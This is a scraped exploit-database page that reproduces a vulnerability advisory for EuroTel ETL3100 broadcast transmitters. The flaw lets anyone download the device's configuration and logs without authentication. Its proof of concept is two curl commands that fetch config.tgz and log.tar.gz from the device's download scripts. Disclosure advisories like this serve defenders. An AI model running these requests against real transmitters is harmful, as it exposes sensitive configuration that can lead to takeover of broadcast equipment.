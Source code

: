 ```yaml
---
title: EuroTel ETL3100 Transmitter Unauthenticated Config/Log Download Vulnerability exploit
url: https://sploitus.com/exploit?id=ZSL-2023-5784&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-10
fetch_date: 2025-10-04T11:58:46.657711
---
```


# EuroTel ETL3100 Transmitter Unauthenticated Config/Log Download Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for EuroTel ETL3100 Transmitter Unauthenticated Config/Log Download Vulnerability CVE-2023-6930

2023-08-09 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=ZSL-2023-5784
<html><body><p>EuroTel ETL3100 Transmitter Unauthenticated Config/Log Download Vulnerability

Vendor: EuroTel S.p.A. | SIEL, Sistemi Elettronici S.R.L
Product web page: https://www.eurotel.it | https://www.siel.fm
Affected version: v01c01 (Microprocessor: socs0t10/ats01s01, Model: ETL3100 Exciter)
                  v01x37 (Microprocessor: socs0t08/socs0s08, Model: ETL3100RT Exciter)

Summary: RF Technology For Television Broadcasting Applications.
The Series ETL3100 Radio Transmitter provides all the necessary
features defined by the FM and DAB standards. Two bands are provided
to easily complain with analog and digital DAB standard. The Series
ETL3100 Television Transmitter provides all the necessary features
defined by the DVB-T, DVB-H, DVB-T2, ATSC and ISDB-T standards, as
well as the analog TV standards. Three band are provided to easily
complain with all standard channels, and switch softly from analog-TV
'world' to DVB-T/H, DVB-T2, ATSC or ISDB-T transmission.

Desc: The TV and FM transmitter suffers from an unauthenticated
configuration and log download vulnerability. This will enable
the attacker to disclose sensitive information and help him in
authentication bypass, privilege escalation and full system access.

Tested on: GNU/Linux Ubuntu 3.0.0+ (GCC 4.3.3)
           lighttpd/1.4.26
           PHP/5.4.3
           Xilinx Virtex Machine

Vulnerability discovered by Gjoko 'LiquidWorm' Krstic
                            @zeroscience

Advisory ID: ZSL-2023-5784
Advisory URL: https://www.zeroscience.mk/en/vulnerabilities/ZSL-2023-5784.php

29.04.2023

--

$ curl http://192.168.2.166/cfg_download.php -o config.tgz
$ curl http://192.168.2.166/exciter/log_download.php -o log.tar.gz
</p></body></html>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)